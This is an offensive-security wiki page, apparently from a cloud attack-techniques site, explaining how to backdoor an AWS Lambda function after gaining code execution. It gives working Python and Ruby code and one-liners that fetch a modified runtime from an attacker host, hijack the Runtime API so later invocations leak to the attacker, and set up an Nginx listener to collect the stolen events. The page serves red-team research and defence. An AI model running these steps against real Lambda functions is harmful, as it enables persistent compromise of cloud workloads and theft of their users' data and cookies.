 ```yaml
---
author_name: Nick Frichette
title: Lambda Persistence
description: How to establish persistence on a Lambda function after getting remote code execution.
---
```


<div class="grid cards" markdown>
-   :material-account:{ .lg .middle } __Original Research__

    ---

    [Gaining Persistency on Vulnerable Lambdas](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/) by [Yuval Avrahami](https://twitter.com/yuval_avrahami)

-   :material-book:{ .lg .middle } __Additional Resources__

    ---

    [Revisiting Lambda Persistence](https://frichetten.com/blog/revisiting_lambda_persistence/)
</div>

!!! Warning
    Depending on the specific runtime and tools available, you will likely have to change the approach taken to gain persistence in a Lambda function. The general concepts should serve as a guide for a more specific attack you develop.

After finding a remote code execution vulnerability in a Lambda function, you'll probably want to establish persistence. The steps to do this will depend on the specific runtime that is being used by the Lambda function. Below the Python and Ruby runtimes are used as an example.

!!! Note
    See the "Creating a Listener" section at the bottom of this page for how to setup a listener for exfiltrated data.

## Python Runtime

After identifying that your target is using the Python runtime, you'll need a copy of the `/var/runtime/bootstrap.py` file. You can get this by either creating your own Lambda function and copying it, or by leaking it from the target Lambda function.

Next, you'll want to modify this runtime with some logic to backdoor it. This can be simply done with a few lines such as the following:

<figure markdown>
  ![Python - Backdoored Lambda Bootstrap File](../../images/aws/persistence/lambda_persistence/python_backdoor_bootstrap.png){ loading=lazy }
</figure>

!!! Note
    You can customize what the backdoor does, depending on what you're looking to do. Maybe you want to leak a specific user's data. Maybe you just want Cookies. It's up to you!

With the `bootstrap.py` file backdoored, you'll want to host it in a location that is accessible for the Lambda function to pull down. 

The next step is creating a one-liner to pull down this modified code, as well as to terminate the current event in the [Runtime API](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-api.html). This can be done by posting to a specific endpoint with the current request ID. All together, that code should look something like this:

``` py
import urllib3
import os
http = urllib3.PoolManager()

# Writing the new bootstrap to a file
r = http.request('GET', 'https://evil.server/bootstrap.py')
w = open('/tmp/bootstrap.py', 'w')
w.write(r.data.decode('utf-8'))
w.close()

# Getting the current request ID
r = http.request('GET', 'http://127.0.0.1:9001/2018-06-01/runtime/invocation/next')
rid = r.headers['Lambda-Runtime-Aws-Request-Id']

# End the current event
http.request('POST', f'http://127.0.0.1:9001/2018-06-01/runtime/invocation/{rid}/response', body='null', headers={'Content-Type':'application/x-www-form-urlencoded'})

# Swap the runtimes
os.system('python3 /tmp/bootstrap.py')
```

Or as a long one-liner (don't forget to change the hostname):

```
python3 -c "import urllib3;import os;http = urllib3.PoolManager();r = http.request('GET', 'https://evil.server/bootstrap.py');w = open('/tmp/bootstrap.py', 'w');w.write(r.data.decode('utf-8'));w.close();r = http.request('GET', 'http://127.0.0.1:9001/2018-06-01/runtime/invocation/next');rid = r.headers['Lambda-Runtime-Aws-Request-Id'];http.request('POST', f'http://127.0.0.1:9001/2018-06-01/runtime/invocation/{rid}/response', body='null', headers={'Content-Type':'application/x-www-form-urlencoded'});os.system('python3 /tmp/bootstrap.py')"
```

From here on, all subsequent events should be leaked to the attacker. Remember that if the Lambda function is not used for 5-15 minutes, it will become "cold" and you will lose access to the persistence you've established. You can execute the function again to keep it "warm" or you can simply reestablish persistence.

## Ruby Runtime

After identifying that your target is using the Python runtime, you’ll need a copy of the `/var/runtime/lib/runtime.rb` file. You can get this by either creating your own Lambda function and copying it, or by leaking it from the target Lambda function.

Next, you’ll want to modify this runtime with some logic to backdoor it. This can be simply done with a few lines such as the following:

<figure markdown>
  ![Ruby - Backdoored Lambda Bootstrap File 1](../../images/aws/persistence/lambda_persistence/ruby_backdoor_bootstrap_1.png){ loading=lazy }
</figure>

<figure markdown>
  ![Ruby - Backdoored Lambda Bootstrap File 2](../../images/aws/persistence/lambda_persistence/ruby_backdoor_bootstrap_2.png){ loading=lazy }
</figure>

With the `runtime.rb` file backdoored, you’ll want to host it in a location that is accessible for the Lambda function to pull down. Note, you'll likely want to rename it to something like `run.rb`. This is because you'll want to create a symbolic link between everything in `/var/runtime/lib` to `/tmp`. This will ensure your modified `runtime.rb` file can access all the additional libraries it needs.

The next step is creating a one-liner to create those symbolic links, pull down this modified code, and execute it as well as to terminate the current event in the [Runtime API](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-api.html). This can be done by posting to a specific endpoint with the current request ID. All together, that code should look something like this:

``` ruby
require 'net/http'

# Writing the new runtime to a file
uri = URI('https://evil.server/run.rb')
r = Net::HTTP.get_response(uri)
File.write('/tmp/run.rb', r.body)

# Getting the current request ID
uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/next')
r = Net::HTTP.get_response(uri)
rid = r.header['Lambda-Runtime-Aws-Request-Id']

# End the current request
uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/'+rid+'/response')
Net::HTTP.post(uri, 'null')
```

Or as a long one-liner (don’t forget to change the hostname, create the symbolic links, or execute the code in the background):

```
ln -s /var/runtime/lib/* /tmp && ruby -e "require 'net/http';uri = URI('https://evil.server/run.rb');r = Net::HTTP.get_response(uri);File.write('/tmp/run.rb', r.body);uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/next');r = Net::HTTP.get_response(uri);rid = r.header['Lambda-Runtime-Aws-Request-Id'];uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/'+rid+'/response');Net::HTTP.post(uri, 'null')" && ruby /tmp/run.rb &
```

From here on, all subsequent events should be leaked to the attacker. Remember that if the Lambda function is not used for 5-15 minutes, it will become “cold” and you will lose access to the persistence you’ve established. You can execute the function again to keep it “warm” or you can simply reestablish persistence.

## Creating a Listener

How you receive leaked events is up to you. The author found that the simplest way was via post requests to an Nginx server. The configuration was simple. First, outside of the server block, include a line like `log_format postdata $request_body`.

Next, include the following inside the server block:

```
location = /post {
    access_log /var/log/nginx/postdata.log postdata;
    proxy_pass http://127.0.0.1/post_extra;
}
location = /post_extra {
    access_log off;
    return 200;
}
```

After restarting Nginx, all logs received via post requests should be stored in `/var/log/nginx/postdata.log`.